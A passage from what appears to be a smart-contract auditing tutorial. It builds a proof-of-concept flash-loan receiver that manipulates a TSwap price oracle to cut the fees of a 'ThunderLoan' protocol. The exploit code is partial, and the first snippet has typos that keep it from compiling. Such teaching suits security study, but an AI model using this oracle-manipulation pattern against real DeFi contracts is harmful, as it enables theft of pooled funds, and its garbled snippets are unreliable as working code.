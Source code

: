 ```js
}
```

The function call triggered in our receiver, by the flashloan execution, necessitates that our receiver contract contains an executeOperation function. It's within this function that we need to perfom all of our actions with the loan. We're going to need to:

- swap borrowed TokenA for WETH
- Take out a second loan to compare fees to

Because we're calling two loans, our executeOperation function is going to be called twice. We can prevent issues by creating a mutex lock for the function. Let's also create variables with which to assign the two fees we generate.

```js
bool attacked;
uint256 feeOne;
uint256 feeTwo;
...
function executeOperation(
    address token,
    uint256 amount,
    uint256 fee,
    address,/*initiator*/
    butes calldata /*params*/
) external returns(bool)
{
    if(!attacked){
        feeOne = fee;
        attacked = true;
        uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
        IERC20(token).approve((address(tswapPool), 50e18));
        // Tanks the price:
        tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block,timestamp);
    } else {
        // calculate the fee and repay
    }
    return true;
}

```

Already our executeOperation function is getting complicated! We're acquiring the amount of WETH to swap for through the `getOutputAmountBasedOnInput` function and ultimately performing the swap for this amount, in exchange for our 50e18 poolTokens. This swap is going to drastically affect the price of WETH/tokenA on TSwap.

Time to add our second flash loan and determine how the fee is affected. This loan will be the exact same.

```js
if(!attacked){
    feeOne = fee;
    attacked = true;
    uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
    IERC20(token).approve(address(tswapPool), 50e18);
    // Tanks the price:
    tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp);
    // Takes second identical flash loan
    thunderLoan.flashloan(address(this), IERC20(token), amount, "");
    // repay
} else{
    // calculate the fee and repay
    feeTwo = fee;
}
return true;
```